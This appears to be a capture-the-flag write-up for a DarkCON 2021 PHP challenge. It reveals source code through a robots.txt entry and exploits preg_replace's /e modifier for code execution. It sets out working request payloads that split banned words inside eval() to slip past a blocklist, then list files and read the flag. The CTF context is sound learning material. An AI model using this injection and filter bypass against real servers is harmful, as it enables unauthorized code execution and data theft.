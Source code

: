 The initial webpage doesn't contain anything interesting and since the description says that no brute forcing is needed, just the most common files can be requested.

`/robots.txt` is present and contains a single entry `?lmao`. Requesting `/?lmao` gives the source for that PHP file:

```php
<?php
require_once 'config.php';

$text = "Welcome DarkCON CTF !!";

if (isset($_GET['lmao'])) {
    highlight_file(__FILE__);
    exit;
}
else {
    $payload = $_GET['bruh'];
    if (isset($payload)) {
        if (is_payload_danger($payload)) {
            die("Amazing Goob JOb You :) ");
        }
        else {
            echo preg_replace($_GET['nic3'], $payload, $text);
        }
    }
    echo $text;
}
?>
```

Here, both the pattern to be replaced and the replacement for `preg_replace` are controlled by user input, however the replacement string is filtered by `is_payload_danger`.

[Source](https://medium.com/@roshancp/command-execution-preg-replace-php-function-exploit-62d6f746bda4). `preg_replace` executes commands when the pattern has the `e` modifier, running the replacement string as PHP code and putting the generated value in place of the pattern to replace. The only problem is getting past the filtering.

Among the list of (sub)strings that are banned are `config`, `file`, `include` and `dir`, making usual approaches not work. However, `eval` is not filtered out, so these functions can still be constructed:

```
/?nic3=/W/e&bruh=eval('echo implode(",",scand'.'ir("."));');
```

returns

```
.,..,config.php,flag210d9f88fd1db71b947fbdce22871b57.php,index.php,robots.txtelcome DarkCON CTF !!Welcome DarkCON CTF !!
```

and then to get the contents:

```
/?nic3=/W/e&bruh=eval('echo fi'.'le_get_contents("flag210d9f88fd1db71b947fbdce22871b57.php");');
```

which returns

```
darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!} elcome DarkCON CTF !!Welcome DarkCON CTF !!
```
